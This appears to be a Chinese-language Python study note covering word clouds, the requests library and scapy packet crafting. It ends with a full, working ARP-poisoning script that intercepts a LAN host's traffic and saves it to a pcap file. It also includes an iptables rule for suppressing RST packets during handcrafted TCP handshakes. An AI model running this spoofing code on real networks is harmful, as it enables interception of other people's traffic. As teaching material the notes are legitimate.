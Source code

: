 Python
==============

词云
---------------

需要安装jieba、wordcloud
通过命令行直接生成词云的命令行::
 
 wordcloud_cli --text file_path.txt --imagefile wordcloud.png
 # 可以通过wordcloud_cli 进行更详细的调节，需要对文件分词，自带的分词效果较差
 # --fontfile path 支持中文
 # --mask file
 # --background white


通过jieba对中文分词处理::
 
 import jieba
 import wordcloud
 import matplotlib.pyplot as plt

 words = open(r'words.txt','rb').read().decode('utf-8')
 # print(words)
 cut_words = list(jieba.cut(words))
 cut_str = ' '.join(cut_words)
 print(cut_words)
 make = wordcloud.WordCloud(font_path=r'C:\Windows\Fonts\simkai.ttf')
 s = make.generate(cut_str)
 plt.imshow(s)
 plt.axis('off')
 plt.show()

requests库的使用
------------------

发送http请求::

 url = 'https://www.baidu.com'
 headers = {'user-agent':""}
 proxy = {"http":"89.17.37.218:52957"} # 使用代理
 response = requests.get(url,params={"wd":"中国"},proxies=proxy)
 # response.content 是原始页面的byte类型，没有解码
 # response.text 是requests 解码后的数据，解码方式是推测的，可能出错

 response = request.post(url,data) # post 请求

scapy库的使用
-------------------------
模拟三次握手::
 
 windows查看端口 netstat
 
 send(),在第三层发送数据包，但没有接收功能
 sendp(),在第二层发送数据包，同样没有接收功能

 sr(),在第三层发送数据包，有接收功能
 sr1(),在第三层发送数据包，有接收功能，但只接收第一个包
 srloop(),在第三层工作,循环发包

 srp()、srp1()、srploop()与sr,sr1,srloop类似,只是工作在第二层
 开始模拟时需要设置防火墙规则，防止操作系统发送RST
 iptables -A OUTPUT -p tcp --tcp-flags RST RST -d 192.168.233.1 -j DROP
 
 flags = 2 为SYN扫描，半开式扫描
 recv=sr1(IP(dst="192.168.233.1")/TCP(dport=10020,sport=7777,flags="S"))
 ack = recv.ack
 seq = recv.seq
 
 发送ACK(flag = 16),完成三次握手！
 send(IP(dst='192.168.233.1')/TCP(dport=10020,sport=7777,flags=16,seq=ack,ack=seq+1))

 flag为24（ACK = 16，PUSH = 8) 发送数据
 recv1 = sr(IP(dst='192.168.233.1')/TCP(dport=10020,sport=7777,flags=24,seq=ack,ack=seq+1)/"hi", multi=1, timeout=10)
 如果多次发送数据需要每次对获取的seq+1,然后令ack等于seq+1

 flags=17, FIN（1） + ACK（16），进行连接终结
 recv1=srp1(IP(dst='192.168.233.1')/TCP(dport=10020,sport=7777,seq=ack,ack=seq+1,flags=17))

arp投毒,抓包::

 from scapy.all import *
 import os
 import sys
 import threading
 import signal
 from scapy.layers.l2 import ARP, Ether

 def restore_target(gateway_ip,gateway_mac,target_ip,target_mac):
    print("restore target >>>>>>>")
    send(ARP(op=2,psrc=gateway_ip,pdst=target_ip,hwdst="ff:ff:ff:ff:ff:ff",hwsrc=gateway_mac),count=5)
    send(ARP(op=2,psrc=target_ip,pdst=gateway_ip,hwdst="ff:ff:ff:ff:ff:ff",hwsrc=target_mac),count=5)
    os.kill(os.getpid(),signal.SIGINT)
 def get_mac(ip_address):
    responses,unanswered = srp(Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(pdst=ip_address),
                               timeout=2,retry=10)
    a = 1
    for s,r in responses:
        print(s)
        print("$"*20)
        print(r)
        return r[Ether].src
 def poison_target(gateway_ip,gateway_mac,target_ip,target_mac):
    print("begin to ARP poison")
    while True:
        try:
            send(ARP(op=2,psrc=gateway_ip,pdst=target_ip,hwdst=target_mac)) # 欺骗主机
            send(ARP(op=2,psrc=target_ip,pdst=gateway_ip,hwdst=gateway_mac)) # 欺骗网关
        except KeyboardInterrupt:
            restore_target(gateway_ip,gateway_mac,target_ip,target_mac)

    # print("stoped poison")
 if __name__ == '__main__':

    target_ip = '192.168.0.150'
    gateway_ip = '192.168.0.1'
    packet_count = 10
    conf.verb = 0
    gateway_mac = get_mac(gateway_ip)
    target_mac = get_mac(target_ip)
    print(gateway_mac,target_mac)
    poison_thread = threading.Thread(target=poison_target,args=(gateway_ip,gateway_mac,
                                                                target_ip,target_mac))
    poison_thread.start()
    try:
        bpf_filter = "ip host %s"%target_ip
        packets_ = sniff(count=packet_count,filter=bpf_filter) # 抓包
        wrpcap("arp.pcap",packets_)
        restore_target(gateway_ip,gateway_mac,target_ip,target_mac) # 恢复原先设置
    except KeyboardInterrupt:
        restore_target(gateway_ip, gateway_mac, target_ip, target_mac) # 恢复原先设置

    poison_thread.join()
